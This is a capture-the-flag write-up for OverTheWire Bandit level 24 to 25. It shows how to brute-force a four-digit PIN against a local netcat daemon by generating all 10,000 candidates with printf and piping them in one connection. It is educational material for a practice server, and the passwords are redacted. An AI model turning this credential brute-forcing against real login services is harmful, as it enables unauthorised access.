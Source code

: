 # Bandit24 -> 25: The Daemon's Lockbox

[Challenge](https://overthewire.org/wargames/bandit/bandit25.html)

---

## Level Description

In this level, you're told that the daemon is listening on port `30002`. It will give you the password for `bandit25` **only if** you send it:
1. The current password for `bandit24`, and
2. A secret 4-digit **PIN CODE**
3. Both should be sent on a single line, separated by a space.

The twist? 
You don't know the exact PIN-- and there's **no way to retrieve it** other than trying all possible combinations: **brute force** the pin (0000..9999).

The good news:
**You don't need create a new connection each time.**

---

## The Process

**Step 1: Logging into bandit24**

As usual, I connected to the Bandit server using SSH:

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

Once inside, there wasn't much to explore in home directory. 

**Step 2: Test the connection manually"

use `nc` netcat to talk to the daemon on port `30002`.

```bash
nc localhost 30002
```

You'll see this:

```bash
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
```

Try it with correct password and a random pincode to see how it responds:

```bash
[REDACTED] 8777
```

You'll get a response like:

```bash
Wrong! Please enter the correct current password and pincode. Try again.
```

Perfect--now let's automate it!

**Step 3: Make a temporary working directory"

```bash
mktemp -d 
```

it return:

```bash
/tmp/tmp.wuaaUvfCrE
```

move into that directory:

```bash
cd /tmp/tmp.wuaaUvfCrE
```

- You **don't have write access** to your home directory on bandit.
- `mktemp -d` creates a random-named directory inside `/tmp`, which is both **writable** and **isolated**.
- This prevents other users from guessing your file names or snooping. 

**Step 4: Generate all possible input combinations"

I'll generate 10,000 lines formatted like:

```bash
<password> 0000
<password> 0001
<password> 0002
...
<password> 9999
```

Use this command to generate and save them into a file:

```bash
printf "[REDACTED] %04d\n" {0..9999} >> all_payloads.txt
```

Explanation:

- `%04d/n` pads numbers with leading zeros: `0000`, `0001`, ..., `9999`
- `{0..9999}` loops through all 10,000 numbers
-  `>> all_payloads.txt` writes them all to file for later use.

File succesfully created:
```bash
less all_payloads.txt
```

You confirmed the file contents were as expected.

**Step 5: Send all payloads to the daemon using netcat**

```bash
cat all_payloads.txt | nc localhost 30002 >> results.txt
```

Explanation:

- `cat all_payloads.txt`: reads all the payload lines
- `nc localhost 30002`: pipes each line into the daemon
- `>> results.txt`: appends the daemon's response to a file

Results file created:

```bash
-rw-rw-r-- 1 bandit24 bandit24   678908 Apr  5 01:05 results.txt
```

**Step 6: Find the unique output (correct response)

```bash
sort results.txt | uniq -u
```

Explanation:
- Most lines in `results.txt` will be the same:
`"Wrong! Please enter the correct current password and pincode. Try again."`
- `sort` puts identical lines next to each other.
- `uniq -u` filters and shows **only lines that appear once** -- that's the successful one!

Output:
```bash
Correct!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is [REDACTED]
```

Voila! A golden ticket!

## Password for the Next Level

`[REDACTED]`

## What I Learned




